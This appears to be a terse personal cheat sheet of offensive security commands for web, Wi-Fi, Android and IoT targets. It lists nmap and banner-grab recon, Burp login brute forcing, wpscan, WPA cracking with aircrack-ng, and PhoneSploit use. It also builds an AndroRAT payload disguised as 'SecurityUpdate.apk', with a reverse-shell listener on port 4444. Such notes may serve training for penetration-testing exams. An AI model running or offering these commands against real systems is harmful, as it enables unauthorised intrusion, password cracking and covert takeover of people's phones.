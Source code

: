 #  Web Applications

### Web app recon

**banner grab: nc -vv www.xxx.com 80 >> “GET / HTTP/1.0”** 

telnet www.xxx.com 80 **>> “GET / HTTP/1.0”** 

**command**: nmap -T4 -A -v [Target Web Application] (dns host name)

Web app vuln SmartScanner  windows app 

 **N-Stalker, Uniscan,AppSpider**

**BURP  with login page brute force** >> intruder pass user field >> attack type cluster bomb payload 1,2 user pass list load >>start attack

Wordpress scan and attack >>  **wpscan --url** **http://ipadres:8080/ --api-token wpscantoken**



# wifi

a2= wpa

**AİRCRACK-NG:** aircrack-ng -a2 -b [Target BSSID] -w /home/attacker/Desktop/Wordlist/password.txt '01.cap'


# mobile and ıot

sudo python3 phonesploitpro.py >> select 1 >> connect android ip adres

**payload create:** python3 androRAT.py --build -i ipadress -p 4444 -o SecurityUpdate.apk

**listening code:** python3 androRAT.py --shell -i 0.0.0.0 -p 4444

**apk yolu tespit:** adb shell pm path com.whatsapp

**dosya indr**: adb pull tam dizin 

## IOT

Mqtt port: 1883

machine1: mqtt router install 1883 port listening

machine2: iotsımulator install >> add new network >> machine1 ip adress >> add new device >> start network

Wireshark capture mqtt protocol message

### Controller Area Network create

sudo modprobe can
sudo modprobe vcan
sudo ip link add dev vcan0 type vcan
sudo ip link set up vcan0

